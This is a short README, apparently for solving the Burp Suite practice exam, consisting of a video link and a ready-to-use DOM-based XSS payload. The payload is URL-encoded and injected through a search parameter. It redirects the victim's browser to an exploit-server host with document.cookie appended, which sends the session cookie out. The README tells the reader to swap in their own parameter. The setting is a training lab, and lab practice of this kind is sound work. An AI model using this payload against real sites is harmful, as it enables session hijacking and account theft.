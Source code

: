 # BurpPracticeExamXSS

https://www.youtube.com/watch?v=fNoX_9v6-aY

Note: the search parameter changes from time to time in the practice exam, so make sure to replace the ?find parameter in the script below to what ever your parameter is

```
<script>
location='https://xxx.web-security-academy.net/?find=burpdomxss%22%2C%22test%22%3A(window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-xxx%252eweb-security-academy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D)%7D%2F%2F';
</script>
```
